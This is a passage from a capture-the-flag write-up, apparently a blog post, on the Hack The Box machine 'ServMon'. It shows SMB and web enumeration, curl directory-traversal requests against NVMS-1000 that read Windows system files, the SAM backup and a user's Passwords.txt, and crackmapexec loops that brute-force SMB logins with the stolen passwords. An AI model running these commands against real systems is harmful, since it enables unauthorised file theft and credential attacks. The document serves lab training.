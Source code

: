 ```bash
smbmap -H 10.10.10.184 -u "null" --no-banner

whatweb http://10.10.10.184 https://10.10.10.184:8443
# NSClient++

# http://10.10.10.184/Pages/login.htm
# https://10.10.10.184:8443/index.html
```

<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_05.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_06.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_07.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I search the internet with a search engine for the default credentials to access the **NVMS-1000** administration panel, but they don't work. With `searchsploit`, I find that the **NVMS-1000** web tool is likely vulnerable to an **[LFI](https://www.invicti.com/learn/local-file-inclusion-lfi/){:target="_blank"}**, and I also have two exploits that I can analyze or download from the local **Exploit-DB** database to use. Just by analyzing the exploit code, I see that it can be exploited manually since it is not very complex, so I use `curl` to perform an **[LFI](https://www.invicti.com/learn/local-file-inclusion-lfi/){:target="_blank"}** and the results are positive as I begin to **[leak sensitive information from the Windows system](https://hakluke.medium.com/sensitive-files-to-grab-in-windows-4b8f0a655f40){:target="_blank"}**. I also remember the information from the text file I had downloaded and look for the **NSClient++** access password in **nathan's** personal directory. I'm lucky and find a list of passwords, which I immediately save. With `searchsploit`, I can perform a brute force attack to verify if one of these passwords is valid, but it tells me that it is not, even when I try with the username **nadine**. For some reason, I need to create a dictionary with the usernames to use in the brute force attack, so that if I succeed in finding a valid password.

```bash
# http://10.10.10.184/Pages/login.htm
# admin:123456      :(

searchsploit nvms 1000
searchsploit -x hardware/webapps/47774.txt
curl -s -X GET "http://10.10.10.184/Pages/login.htm/../../../../../../../../../windows/win.ini" --path-as-is
curl -s -X GET "http://10.10.10.184/Pages/login.htm/../../../../../../../../../windows/system32/drivers/etc/hosts" --path-as-is

curl -s -X GET "http://10.10.10.184/Pages/login.htm/../../../../../../../../../windows/System32/config/RegBack/SAM" --path-as-is
curl -s -X GET "http://10.10.10.184/Pages/login.htm/../../../../../../../../../windows/system32/drivers/etc/networks" --path-as-is

curl -s -X GET "http://10.10.10.184/Pages/login.htm/../../../../../../../../../Users/nathan/desktop/Passwords.txt" --path-as-is
curl -s -X GET "http://10.10.10.184/Pages/login.htm/../../../../../../../../../Users/nathan/desktop/Passwords.txt" --path-as-is > Passwords.txt

for password in $(cat Passwords.txt); do crackmapexec smb 10.10.10.184 -u nathan -p $password; done
for password in $(cat Passwords.txt); do crackmapexec smb 10.10.10.184 -u nadine -p $password; done
```